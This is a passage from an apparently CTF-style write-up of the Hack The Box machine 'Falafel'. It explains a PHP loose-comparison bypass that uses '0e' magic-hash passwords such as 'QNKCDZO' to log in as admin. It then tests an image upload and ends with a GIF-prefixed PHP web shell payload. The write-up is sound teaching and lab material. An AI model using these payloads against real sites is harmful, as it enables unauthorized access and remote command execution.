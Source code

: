 PHP is loosely typed, so it does not require you to declare a variable type when declaring a variable. Therefore, when evaluating a variable it can automatically perform a type conversion on the variable, converting it from one type to another. For example, the admin’s password “_0e462096931906507119562988736854_” is automatically converted to a float and evaluated as 0 \(0 x 10^\(462…\). You can test this out in the terminal.

```text
root@kali:~/Desktop/htb/falafel# php -a
Interactive mode enabledphp > print(0e462096931906507119562988736854);
0
```

In this specific scenario, this poses a security issue because any password that has an md5 hash that starts with the string “0e” will authenticate us to the admin account. A quick google search on “0e md5 hash”, [gives us several such strings](https://news.ycombinator.com/item?id=9484757):

```text
$ echo -n 240610708 | md5sum
0e462097431906509019562988736854  -$ echo -n QNKCDZO | md5sum
0e830400451993494058024219903391  -$ echo -n aabg7XSs | md5sum
0e087386482136013740957780965295  -
```

When we enter any one of the above strings in the login form, it will get sent to the backend, hashed and compared with the hash of the admin password. Since both the hash of the admin password and the hash of the above password are equal to 0, the application assumes we have the correct admin password and authenticates us as admin. Pretty cool, huh?

Let’s use the “QNKCDZO” string as the password and authenticate into the admin account.

![](https://miro.medium.com/max/1405/1*5n64Ct9vpGhaZkf0gu8nzQ.png)

We’re in!

## Initial Foothold <a id="220b"></a>

Let’s test out the image upload functionality by uploading a valid image. Save the image _test.png_ on your attack machine and start up a python server in the directory that the image resides in.

```text
python -m SimpleHTTPServer 5555
```

Upload the image in the application.

![](https://miro.medium.com/max/889/1*u8QmH5-qsSoTE2hd3zbVjw.png)

View page source to see the output of the application \(client side scripts don’t seem to be functioning properly\).

![](https://miro.medium.com/max/1339/1*BUSirQR7XykwWAC_9AQdGw.png)

The image was successfully uploaded in the above location. So not only do we have a place to upload files, but we also know the location where we can call and execute these files. Let’s try uploading a PHP file \(_test.php_\).

```text
GIF87a                                                                                                                                                                         
<?php system($_GET['cmd']); ?>
```
